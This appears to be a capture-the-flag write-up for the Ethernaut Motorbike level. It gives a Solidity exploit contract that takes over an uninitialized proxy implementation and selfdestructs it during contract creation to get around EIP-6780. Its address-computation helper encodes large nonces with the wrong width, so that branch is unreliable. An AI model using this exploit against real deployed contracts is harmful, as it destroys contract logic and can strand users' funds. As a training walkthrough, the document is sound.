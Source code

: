 
## Fetching Implementation Address (useful prior to `EIP-6780`)

```js
await web3.eth.getStorageAt(
    contract.address,
    `0x${web3.utils.BN(web3.utils.sha3("eip1967.proxy.implementation")).sub(web3.utils.BN(1)).toString(16)}`
)
// '0x000000000000000000000000c147b4ff63cd11529051981c78aca11d1a41cb2c'
```

## Dealing With [EIP-6780](https://eips.ethereum.org/EIPS/eip-6780)

We need to call the `selfdestruct` during the contract creation transaction,
<br>
otherwise the opcode would have no affect.

```js
ethernaut = '0xa3e7317E591D5A0F1c605be1b3aC4D2ae56104d6'
level = '0x3A78EE8462BD2e31133de2B8f1f9CBD973D6eDd6'
nonce = await web3.eth.getTransactionCount(level) // 3461
```

Now we would use these params to call `BypassEIP6780`.

##

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

interface IEthernaut {
    function createLevelInstance(address _level) external;
    function submitLevelInstance(address _instance) external;
}

interface IEngine {
    function initialize() external;
    function upgradeToAndCall(address newImplementation, bytes memory data) external;
}

contract BypassEIP6780 {
    IEthernaut public ethernaut;
    address public motorbike;
    address public engine;

    constructor(address _ethernaut, address _level, uint256 _levelNonce) {
        ethernaut = IEthernaut(_ethernaut);
        engine = computeContractAddress(_level, _levelNonce);
        motorbike = computeContractAddress(_level, _levelNonce + 1);
        ethernaut.createLevelInstance(_level);
        new MotorbikeSolution().destructEngine(engine);
    }

    function computeContractAddress(address _creator, uint256 _nonce) private pure returns (address) {
        if (_nonce == 0) {
            // RLP encoding for the address and nonce 0 case
            return address(uint160(uint256(keccak256(abi.encodePacked(
                bytes1(0xd6),
                bytes1(0x94),
                _creator,
                bytes1(0x80)
            )))));
        }
        if (_nonce <= 0x7f) {
            // Nonce is 1 byte
            return address(uint160(uint256(keccak256(abi.encodePacked(
                bytes1(0xd6),
                bytes1(0x94),
                _creator,
                uint8(_nonce)
            )))));
        }
        if (_nonce <= 0xff) {
            // Nonce is 2 bytes
            return address(uint160(uint256(keccak256(abi.encodePacked(
                bytes1(0xd7),
                bytes1(0x94),
                _creator,
                uint8(0x81),
                uint8(_nonce)
            )))));
        }
        if (_nonce <= 0xffff) {
            // Nonce is 3 bytes
            return address(uint160(uint256(keccak256(abi.encodePacked(
                bytes1(0xd8),
                bytes1(0x94),
                _creator,
                bytes1(0x82),
                uint16(_nonce)
            )))));
        }
        if (_nonce <= 0xffffff) {
            // Nonce is 3 bytes
            return address(uint160(uint256(keccak256(abi.encodePacked(
                bytes1(0xd9),
                bytes1(0x94),
                _creator,
                bytes1(0x83),
                uint16(_nonce)
            )))));
        }
        revert("Nonce too high");
    }

    function submitLevel() external {
        ethernaut.submitLevelInstance(motorbike);
    }
}

contract MotorbikeSolution {
    function destructEngine(address _engine) external {
        IEngine e = IEngine(_engine);
        e.initialize();
        e.upgradeToAndCall(address(this), abi.encodeWithSelector(this.destruct.selector));
    }

    function destruct() external {
        selfdestruct(payable(tx.origin));
    }
}
```

## Submitting Level

Submit the level via `BypassEIP6780.submitLevel()`.

#### NOTE:
The `level instance` will belong to `BypassEIP6780` contract and not to the EOA player.
<br>
Therefore the solution will not be recorded under the player EOA :(
<br>
Creating a `"middleman"` contract that will do a delegate call to create the `level instance` will not work since it would update the `"middleman"` contract's storage rather than the storage of the `ethernaut` contract (as we saw earlier).
